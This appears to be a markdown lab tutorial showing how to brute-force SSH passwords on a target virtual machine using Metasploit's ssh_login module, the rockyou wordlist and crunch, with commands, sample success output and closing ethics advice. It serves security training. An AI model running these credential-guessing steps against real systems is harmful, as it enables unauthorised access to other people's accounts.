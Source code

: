 ### **Setup:**

1. **Environment Preparation:**
    
    - Have two virtual machines running Kali Linux or any Debian-based.
    - One machine will act as the **target** (running SSH service) and the other as the **attacker** (running Metasploit).
    - Ensure that both the machines are in the same network and are able to ping to each other.
1. **Ensure SSH is Enabled on the Target Machine:**
    
    - Start the SSH service on the target machine:
        
        ```bash
        sudo service ssh start
        ```
        
    - Confirm SSH is running:
        
        ```bash
        sudo netstat -tuln | grep 22
        ```
        
    - Note the target machine's IP address:
        
        ```bash
        ip a
        ```
        
3. **Install Necessary Tools:**
    
    - Ensure Metasploit is installed on the attacker machine:
        
        ```bash
        msfconsole
        ```
        

---

### **Steps to Perform Brute Force Attack:**

1. **Start Metasploit Framework:**
    
    - Launch Metasploit on the attacker machine:
        
        ```bash
        msfconsole
        ```
        
2. **Load the SSH Login Module:**
    
    - Use the Metasploit SSH login auxiliary module:
        
        ```bash
        use auxiliary/scanner/ssh/ssh_login
        ```
        
3. **Set Target Parameters:**
    
    - Set the target IP address:
        
        ```bash
        set RHOSTS <Target_IP>
        ```
        
    - Specify the username to attempt login:
        
        ```bash
        set USERNAME <username>
        ```
        
        _Replace `<username>` with the actual username you want to test._
4. **Specify the Wordlist for Passwords:**
    
    - Use a pre-existing password list or create one:
        
        ```bash
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        ```
        
    - Ensure the `rockyou.txt` file is uncompressed:
        
        ```bash
        gunzip /usr/share/wordlists/rockyou.txt.gz
        ```
	* You can also use your own password list:
		
```bash
		crunch 4 4 0123456789 -o password.txt
```

1. **Set the Number of Threads:**
    
    - To speed up the process, set multiple threads:
        
        ```bash
        set THREADS 4
        ```
        
6. **Initiate the Attack:**
    
    - Start the brute force attack:
        
        ```bash
        run
        ```
        
    - Metasploit will iterate through the password list, trying to log in using the provided username.
7. **Analyze Results:**
    
    - If a correct password is found, it will be displayed in the output:
        
        ```
        [SUCCESS] <Target_IP>:22 - Success: '<username>:<password>'
        ```
        

---

### **Post-Attack Cleanup:**

1. **Stop the SSH Service on the Target (Optional):**
    
    ```bash
    sudo service ssh stop
    ```
    
2. **Document Findings:**
    
    - Note the cracked credentials and include them in your report.
3. **Ethical Responsibility:**
    
    - Avoid causing harm or retaining unauthorized access to systems. Inform relevant authorities or owners about the findings if it’s a penetration test.

---